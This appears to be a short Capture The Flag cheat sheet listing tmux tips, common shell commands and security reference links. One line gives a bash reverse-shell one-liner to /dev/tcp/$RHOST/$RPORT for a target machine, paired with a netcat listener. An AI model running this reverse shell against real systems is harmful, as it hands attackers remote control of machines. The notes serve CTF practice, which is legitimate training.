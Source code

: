 # Hello Capture The Flag (CTF)
==============================

## tmux
1. `ctrl+b :` to enter tmux command prompt
2. `$ tmux split-window vim /etc/passwd`
3. `: swap-window -s 3 -t 0`
4. `ctrl+b t`to open clock

## Nice Commands
1. `$ ls -lahR` (read permission, file size, recursively)
2. `$ wordlist` (path to wordlists)
3. `$ locate *2john` (what else john can do?)
4. `$ nc -l -p 12345` on attacker machine
5. `$ bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'` on target machine
6. `$ find / -type f -iname '*flag*' 2>/dev/null`
7. `$ python -m SimpleHTTPServer 8000`
8. `$ ifconfig tun0`

## Useful Links
1. [GTFOBins - Exploitable Unix binaries](https://gtfobins.github.io/)
2. [CVE Details - CVE security vulnerability database](https://www.cvedetails.com/)
3. [CyberChef - Encryption, Encoding, Compression & Data Analysis](https://gchq.github.io/CyberChef/)
